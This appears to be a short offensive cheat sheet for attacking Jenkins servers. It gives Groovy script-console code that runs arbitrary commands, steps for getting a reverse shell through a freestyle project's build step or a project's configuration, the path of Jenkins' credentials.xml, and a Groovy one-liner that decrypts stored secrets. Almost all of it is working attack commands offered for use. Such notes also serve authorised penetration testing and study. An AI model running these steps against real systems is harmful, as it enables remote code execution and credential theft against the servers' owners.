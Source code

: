 ### code execution via groovy script <rhost>/script
```
def process = "<command>".execute()
println "Found text ${process.text}"
```

### code execution via now project
```
create new freestyle project > inside build section > set execute shell > paste reverse shell commando > build now
```

### code execution via configuration of project
```
open project > configure > paste command > save and built
```

### password hashes for jenkins
```
<jenkinsHome>/credentials.xml
```

### decrypt using groovy script console
```
println hudson.util.Secret.decrypt("{<hash>}")
```

